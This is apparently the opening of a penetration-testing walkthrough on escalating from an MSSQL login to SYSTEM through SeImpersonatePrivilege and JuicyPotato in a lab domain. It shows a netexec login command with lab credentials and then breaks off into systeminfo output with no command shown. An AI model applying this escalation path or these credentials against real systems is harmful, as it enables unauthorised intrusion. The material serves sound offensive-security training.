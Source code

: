 ```yaml
---
title: "From SQL to SYSTEM: Registry Looting and Privilege Escalation via MSSQL"
date: 2025-07-02
categories: [MSSQL, Privilege Escalation, Registry Looting, JuicyPotato]
tags: [MSSQL, Privilege Escalation, JuicyPotato, SeImpersonatePrivilege]
---
```


## Attack Scenario Introduction
In Windows, every process runs under a security token that represents the user’s identity and privileges. These tokens can be abused if the process has the **SeImpersonatePrivilege**, a powerful right typically granted to administrators and service accounts. This privilege allows a process to impersonate another user’s token, often leveraged through APIs like **CreateProcessWithTokenW** to escalate privileges, commonly from a local admin to **SYSTEM**.

While legitimate software uses this for service management or single sign-on operations, attackers weaponise it using “Potato-style” exploits. These techniques involve tricking a SYSTEM-level process into leaking its token, which is then hijacked to execute commands as SYSTEM. This is particularly useful when exploiting services such as **IIS**, **Jenkins**, or **MSSQL**, where code execution is already possible under a service context.

In this walkthrough, we compromise a host through **MSSQL** using a low-privileged domain user with **SeImpersonatePrivilege** enabled. We enable and abuse **xp_cmdshell** to execute OS-level commands, loot the registry for stored secrets, download and execute payloads including **JuicyPotato** to escalate to SYSTEM, and explore alternative methods for downloading files when default techniques like **certutil** are blocked, such as using PowerShell.

## Limitations.
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. Use PrintSpoofer and RoguePotato for these versions.

## Verify Obtained Credentials Can Log In to MSSQL
We can use **Netexec** to quickly verify whether the obtained credentials are valid for logging into MSSQL on the target system.

Netexec MSSQL Login Command:
```bash
netexec mssql 192.168.1.178 -d essos.local -u 'khal.drogo' -p 'horse'
```
The image below shows **Netexec** successfully authenticating to the MSSQL service using the provided credentials. This confirms that the account is valid and accessible for further interaction.
![VerifyCredsWork](assets/images/mssql/7-verify-mssql-creds-work.png)

## Connecting to MSSQL with Windows Credentials 

We’ll use **Impacket’s mssqlclient.py** to authenticate to MSSQL using Windows credentials.


[01]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~2195 Mhz                  
[02]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~2195 Mhz                  
[03]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~2195 Mhz                  
[04]: Intel64 Family 6 Model 62 Stepping 4 GenuineIntel ~2195 Mhz                      
[01]: KB3192137                                                                    
[02]: KB3211320                                                                    
[03]: KB4485447                                                                    
[04]: KB4487026                                                                    
[01]: Intel(R) PRO/1000 MT Network Connection                                      
[01]: 192.168.1.178                                                              
[02]: fe80::599b:eaa9:2243:dfe5                                                  
[03]: fd78:4c15:7f9d:1:599b:eaa9:2243:dfe5                                       
[04]: fd78:4c15:7f9d:0:599b:eaa9:2243:dfe5                                       
[05]: 2a00:23c6:5ca1:1b01:599b:eaa9:2243:dfe5                                    
[06]: 2a00:23c6:5ca1:1b01::178                                                   
[07]: 2a00:23c6:5ca1:1b00:599b:eaa9:2243:dfe5                                    
[02]: Intel(R) PRO/1000 MT Network Connection                                          
[01]: 192.168.56.23                                                              
[02]: fe80::8ceb:b7c:aca6:f909                                                   